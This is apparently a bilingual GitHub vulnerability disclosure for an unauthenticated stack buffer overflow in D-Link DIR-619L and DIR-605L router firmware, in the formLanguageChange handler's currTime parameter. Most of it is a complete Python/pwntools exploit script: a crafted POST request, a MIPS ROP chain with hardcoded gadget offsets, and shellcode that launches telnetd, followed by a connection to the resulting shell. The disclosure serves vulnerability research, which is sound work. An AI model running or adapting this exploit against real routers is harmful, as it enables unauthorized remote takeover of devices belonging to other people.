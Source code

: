``` 
Dlink model DIR-619L, the latest firmware 2.06B1, There is a stack overflow vulnerability that does not require authentication
This can cause remote code execution
download link: ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
Vulnerability location: file:  /bin/boa  function: formLanguageChange
The attacker calls this function by sending a post packet to the http://ip/goform/formLanguageChange page.
Post parameter currTime length is not verified。After using sprintf directly，Caused a stack overflow。
The same problem exists with the latest firmware 2.12B1 on the DIR-605L.
download link:ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/
``` 
post package

![images](https://github.com/WhooAmii/iot/blob/master/DIR-619/5.png)

![images](https://github.com/WhooAmii/iot/blob/master/DIR-619/6.png)

Dlink型号DIR-619L最新固件2.06B1上存在不需要验证身份的栈缓冲区溢出漏洞。
可造成远程任意代码执行。
下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/
漏洞位置发生在/bin/boa程序的formLanguageChange函数。
攻击者通过向http://ip/goform/formLangageChange页面发送post包调用此函数。
Post参数currTime长度未经校验使用sprintf写入栈上。并在之后websRedirect页面跳转函数中通过jr ra。控制代码流程。
 

将shell code存放在栈上
通过rop跳转执行sleep函数后跳转至shellcode。执行telnetd程序完成利用。
型号DIR-605L最新固件2.12B1上同样存在该问题。
下载地址ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-605L/REVB/
 

DIR-619l.py
``` python
import requests
import sys
import struct
from pwn import *
def inter():
	p=remote('192.168.0.1',23)
	p.interactive()
def syscmd1(a):
	p=remote('192.168.0.1',80)
	z=len(a)
	payload=''
	payload+='POST /goform/formLanguageChange HTTP/1.1\r\n'
	payload+='Host: 192.168.0.1\r\n'
	payload+='Connection: keep-alive\r\n'
	payload+='Accept-Encoding: gzip, deflate\r\n'
	payload+='Accept: */*\r\n'
	payload+='User-Agent: python-requests/2.18.4\r\n'
	payload+='Content-Length: '+str(z+9)+'\r\n'
	payload+='Content-Type: application/x-www-form-urlencoded\r\n'
	payload+='\r\n'
	payload+='currTime='
	payload+=a
	p.send(payload)
	p.recvuntil('</html>')
	p.close()

base1=0x2aba9500-0x22500
###shellcode
shellcode =''
shellcode += struct.pack(">I",0x24060666)
shellcode += struct.pack(">I",0x04d0ffff)
shellcode += struct.pack(">I",0x2806ffff)
shellcode += struct.pack(">I",0x27bdffe0)
shellcode += struct.pack(">I",0x27e41005)
shellcode += struct.pack(">I",0x2484f01f)
shellcode += struct.pack(">I",0xafa4ffe8)
shellcode += struct.pack(">I",0xafa0ffec)
shellcode += struct.pack(">I",0x27a5ffe8)
shellcode += struct.pack(">I",0x24020fab)
shellcode += struct.pack(">I",0x0101010c)
shellcode += 'aaaa'+'/usr/bin/telnetd'+chr(0)
s0=struct.pack(">I",base1+0x2C794)
s1=struct.pack(">I",base1+0x2C794) ### rop2
s2=struct.pack(">I",base1+0x24b70)
s3=struct.pack(">I",base1+0x2bdac)###rop3
s4=struct.pack(">I",base1+0x2bdac)
###rop
payload1='a'*0x167+s0+s1+s2+s3
payload1+=struct.pack(">I",base1+0x25714)  ###rop1
payload1+='a'*0x1c+s0+s1+s2+s3+s4
payload1+=struct.pack(">I",base1+0x24d70)  ###sleep
payload1+='a'*0x14
payload1+=struct.pack(">I",0x24910101)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x0220c821)
payload1+=struct.pack(">I",0x0320f809)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",0x2231feff)
payload1+=struct.pack(">I",base1+0x2bda0) ###rop4
payload1+='a'*0x20+shellcode
if __name__ == "__main__":
	syscmd1(payload1)	
	inter()
``` 
